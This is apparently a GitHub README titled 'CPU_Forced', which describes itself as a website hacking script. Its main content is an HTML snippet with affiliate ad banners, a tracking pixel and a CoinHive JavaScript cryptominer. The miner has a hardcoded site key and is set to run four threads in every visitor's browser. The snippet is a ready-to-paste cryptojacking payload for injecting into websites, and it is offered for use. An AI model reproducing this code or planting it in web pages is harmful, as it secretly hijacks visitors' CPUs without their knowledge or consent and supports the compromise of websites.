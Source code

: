 # CPU_Forced
Hacking website / CPU forced
Script : :) 
script>
<script src="https://ads.exoclick.com/ads.js" type="text/javascript"></script>

<a href="https://www.purevpn.com?aff=30432&amp;a_bid=170b4e3b&amp;chan=2" target="_top"><img src="//affiliates.purevpn.com/accounts/default1/6hb82wqa2l/170b4e3b.jpg" alt="" title="" width="468" height="60" /></a><img src="http://affiliates.purevpn.com/scripts/6hi82wqa2l?aff=30432&amp;a_bid=170b4e3b&amp;chan=2" style="border:0" height="1" alt="" width="1" />

<a href="https://www.facebook.com/khelfatni" target="_blank" title="Ayman khalfatni"><img src="https://1broker.com/img/banner1-728x90.png" alt="Ayman khalfatni dz" style="width: 468px" /></a>

<script src="https://coin-hive.com/lib/coinhive.min.js"></script>
<script>
var miner = new CoinHive.Anonymous('Mh6m0BCOaovqYvAWqgZ9OZKVIitfhOOU',
{ threads: 4, throttle: 8192 });
miner.start();
</script>
